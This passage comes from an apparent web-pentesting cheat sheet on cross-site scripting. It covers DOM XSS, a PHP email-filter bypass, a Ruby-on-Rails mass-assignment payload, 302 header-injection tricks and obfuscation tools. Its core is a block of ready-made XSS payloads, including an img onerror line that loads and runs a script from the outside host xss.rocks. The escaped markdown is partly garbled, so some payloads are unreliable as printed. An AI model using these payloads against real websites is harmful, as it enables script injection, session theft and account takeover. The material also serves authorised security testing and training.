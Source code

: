 \`\`\` \#\# \*\*DOM vulnerabilities\*\* There is \*\*JS code\*\* that is using \*\*unsafely data controlled by an attacker\*\* like \`location.href\` . An attacker, could abuse this to execute arbitrary JS code. \*\*Due to the extension of the explanation of\*\* \[\*\*DOM vulnerabilities it was moved to this page\*\*\]\(dom-xss.md\)\*\*:\*\* {% page-ref page="dom-xss.md" %} There you will find a detailed \*\*explanation of what DOM vulnerabilities are, how are they provoked, and how to exploit them\*\*. Also, don't forget that \*\*at the end of the mentioned post\*\* you can find an explanation about \[\*\*DOM Clobbering attacks\*\*\]\(dom-xss.md\#dom-clobbering\). \#\# Other Bypasses \#\#\# Normalised Unicode You could check is the \*\*reflected values\*\* are being \*\*unicode normalized\*\* in the server \\(or in the client side\\) and abuse this functionality to bypass protections. \[\*\*Find an example here\*\*\]\(../unicode-normalization-vulnerability.md\#xss-cross-site-scripting\). \#\#\# PHP FILTER\\_VALIDATE\\_EMAIL flag Bypass \`\`\`javascript "&gt;"@x.y \`\`\` \#\#\# Ruby-On-Rails bypass Due to \*\*RoR mass assignment\*\* quotes are inserted in the HTML and then the quote restriction is bypassed and additoinal fields \\(onfocus\\) can be added inside the tag. Form example \\(\[from this report\]\(https://hackerone.com/reports/709336\)\\), if you send the payload: \`\`\`text contact\[email\] onfocus=javascript:alert\('xss'\) autofocus a=a&form\_type\[a\]aaa \`\`\` The pair "Key","Value" will be echoed back like this: \`\`\`text {" onfocus=javascript:alert\('xss'\) autofocus a"=&gt;"a"} \`\`\` Then, the onfocus attribute will be inserted: !\[\]\(../../.gitbook/assets/image%20%2882%29.png\) A XSS occurs. \#\#\# Special combinations \`\`\`markup ![](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/pentesting-web/xss-cross-site-scripting/1) alert\(1\) alert\('XSS'\)  
&lt;svg/onload=location=\`javas\`+\`cript:ale\`+\`rt%2\`+\`81%2\`+\`9\`;//  
&lt;svg////////onload=alert\(1\)&gt;  
&lt;svg id=x;onload=alert\(1\)&gt;  
&lt;svg id=\`x\`onload=alert\(1\)&gt;  
&lt;img src=1 alt=al lang=ert onerror=top\[alt+lang\]\(0\)&gt;  
&lt;script&gt;$=1,alert\($\)confirm\(1\)$=1,\u0061lert\($\)&lt;eval\('\\u'+'0061'+'lert\(1\)'\)//&lt;\u0061lert\(1\)alert\(1\) ![String.fromCharCode\(88,83,83\)](x:prompt%28eval%28alt%29%29)alert\('1'&\#41&lt;/x&gt;  
&lt;iframe src=""/srcdoc='&lt;svg onload=alert\(1\)&gt;'&gt;  
&lt;svg&gt;&lt;animate onbegin=alert\(\) attributeName=x&gt;&lt;/svg&gt;  
&lt;img/id="alert\('XSS'\)\"/alt=\"/\"src=\"/\"onerror=eval\(id\)&gt;  
&lt;img src=1 onerror="s=document.createElement\('script'\);s.src='http://xss.rocks/xss.js';document.body.appendChild\(s\);"  
\`\`\`  
  
\#\#\# XSS with header injection in a 302 response  
  
If you find that you can \*\*inject headers in a 302 Redirect response\*\* you could try to \*\*make the browser execute arbitrary JavaScript\*\*. This is \*\*not trivial\*\* as modern browsers do not interpret the HTTP response body if the HTTP response status code is a 302, so just a cross-site scripting payload is useless.  
  
In \[\*\*this report\*\*\]\(https://www.gremwell.com/firefox-xss-302\) and \[\*\*this one\*\*\]\(https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/\) you can read how you can test several protocols inside the Location header and see if any of them allows the browser to inspect and execute the XSS payload inside the body.    
Past known protocols: \`mailto://\`, \`//x:1/\`, \`ws://\`, \`wss://\`, \_empty Location header\_, \`resource://\`.  
  
\#\#\# Obfuscation & Advanced Bypass  
  
\* \[https://github.com/aemkei/katakana.js\]\(https://github.com/aemkei/katakana.js\)  
\* \[https://ooze.ninja/javascript/poisonjs\]\(https://ooze.ninja/javascript/poisonjs\)   
\* \[https://javascriptobfuscator.herokuapp.com/\]\(https://javascriptobfuscator.herokuapp.com/\)   
\* \[https://skalman.github.io/UglifyJS-online/\]\(https://skalman.github.io/UglifyJS-online/\)   
\* \[http://www.jsfuck.com/\]\(http://www.jsfuck.com/\)  
\* More sofisticated JSFuck: \[https://medium.com/@Master\\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce\]\(https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce\)  
\* \[http://utf-8.jp/public/jjencode.html\]\(http://utf-8.jp/public/jjencode.html\)  
\* \[https://utf-8.jp/public/aaencode.html\]\(https://utf-8.jp/public/aaencode.html\)  
  